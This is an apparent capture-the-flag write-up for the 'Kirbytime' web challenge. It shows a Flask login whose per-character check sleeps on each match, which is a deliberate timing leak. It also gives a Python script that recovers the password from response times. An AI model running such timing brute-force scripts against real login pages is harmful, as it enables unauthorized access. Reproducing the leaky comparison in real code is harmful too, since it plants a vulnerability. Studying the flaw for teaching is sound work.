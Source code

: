 +++
title = 'Kirbytime'
tags = [
  "web",
  "python",
  "125 points",
  "218 solves",
  "Stephanie",
]
date = 2024-08-13T13:01:07+02:00
draft = true
+++

<h1 style='text-decoration: underline;text-decoration-color: #9e8c6c;font-size: 3em;'>Kirbytime</h1>

**Description**: Welcome to Kirby's Website.

## Introduction

We find ourselves in front of a very pink Kirby-themed page, where we are asked to enter a password of 7 characters.

## Source

```python
# filename: main.py

import sqlite3
from flask import Flask, request, redirect, render_template
import time
app = Flask(__name__)


@app.route('/', methods=['GET', 'POST'])
def login():
    message = None
    if request.method == 'POST':
        password = request.form['password']
        real = 'REDACTED'
        if len(password) != 7:
            return render_template('login.html', message="you need 7 chars")
        for i in range(len(password)):
            if password[i] != real[i]:
                message = "incorrect"
                return render_template('login.html', message=message)
            else:
                time.sleep(1)
        if password == real:
            message = "yayy! hi kirby"

    return render_template('login.html', message=message)


if __name__ == '__main__':
    app.run(host='0.0.0.0')

```

As we can see in the code at the '/' endpoint, when the method and post, it takes the password value from the form, checks the length to be 7 and starts iterating over each character to check if it is correct, it triggers a time.sleep(1) otherwise it returns an error.

## Solution

The solution is very simple, in fact we can compare it to a kind of time based, when the character is correct we know that the request will take n seconds to return depending on the number of correct characters. With this script we can easily find the flag, but only with a little patience (I recommend a cup of coffee in between).

```python
# filename: exploit.py

import string
import requests

url = 'redacted'

alphabet = string.printable

length = 7

correct_flag = 'a' * length
correct_letter = 0
flag_list = list(correct_flag)
number_of_second_to_wait = 7
while (correct_letter != length):
    for letter in alphabet:
        flag_list[correct_letter] = letter
        flag = "".join(flag_list)
        print(flag)
        payload = {"password": flag}
        r = requests.post(url=url, data=payload)
        assert r.status_code == 200
        print("Time: ", r.elapsed.total_seconds())
        if r.elapsed.total_seconds() >= number_of_second_to_wait:
            correct_letter = correct_letter + 1
            number_of_second_to_wait += 1
            print(flag)
            break

print("Flag found: ", "LITCTF{" + flag + "}")

```

```stdout
$ flag: LITCTF{kBySlaY}
```

<p align='right'>Author: akiidjk </p>
